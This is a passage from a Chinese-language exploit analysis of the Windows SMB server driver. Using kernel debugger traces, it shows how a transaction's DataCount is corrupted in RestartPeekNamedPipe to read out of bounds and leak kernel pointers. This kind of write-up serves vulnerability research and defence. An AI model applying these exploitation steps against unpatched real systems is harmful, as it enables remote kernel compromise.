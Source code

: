 ```c
    // We return to the client 6 parameter bytes.
    //
    transaction->SetupCount = 0;
    transaction->ParameterCount = 6;
    transaction->DataCount = WorkContext->Irp->IoStatus.Information - (4 * sizeof(ULONG));
	//...
}
```
该函数最终会修改`Transaction->DataCount` 为 0x23c。
```c
kd> ub
srv!RestartPeekNamedPipe+0x42:
b7700137 66895004        mov     word ptr [eax+4],dx
b770013b 83614c00        and     dword ptr [ecx+4Ch],0
b770013f c7415406000000  mov     dword ptr [ecx+54h],6
b7700146 8b4678          mov     eax,dword ptr [esi+78h]
b7700149 8b401c          mov     eax,dword ptr [eax+1Ch]
b770014c 83e810          sub     eax,10h
b770014f 85ff            test    edi,edi
b7700151 894160          mov     dword ptr [ecx+60h],eax

kd> ?ecx+0x60
Evaluate expression: 367768 = 00059c98

kd> r eax
eax=0000023c
kd> dd 00059c38
00059c38  109c020c 00000000 ffdff500 89a29c18
00059c48  e1ed9900 e15e2960 0005acf8 00058ba8
00059c58  00020000 00059cd0 00002307 00000001
00059c68  00000000 00059cd4 8993b3e5 00059cd4
00059c78  00059d14 ffdff500 0005acd4 00000000
00059c88  00000000 00000006 00000000 00000ff0
00059c98  0000023c 00000000 00000001 00000000
00059ca8  00000101 08000000 0800cee6 00000000

kd> k
 # ChildEBP RetAddr  
00 b7c0ed88 b76dad98 srv!RestartPeekNamedPipe+0x5f
01 b7c0edac 805c6160 srv!WorkerThread+0x11e
02 b7c0eddc 80541dd2 nt!PspSystemThreadStartup+0x34
03 00000000 00000000 nt!KiThreadStartup+0x16
```
至此，已经成功修改了`write_transaction`的`DataCount`值，之后便可以越界读出 `leak_transacion->Connection`值: 89a29c18。
##### 5.1.1.3 SRV global data pointer
```c
kd> dds 89a29c18
89a29c18  02580202
89a29c1c  0000001d
89a29c20  00000000
89a29c24  00000000
89a29c28  00000000
89a29c2c  00000000
89a29c30  00000000
89a29c34  00000000
89a29c38  00000000
89a29c3c  b76d8bec srv!SrvGlobalSpinLocks+0x3c
89a29c40  899d0020
89a29c44  000005b3
89a29c48  8976c200
89a29c4c  00004000
89a29c50  10000100
89a29c54  00000000
```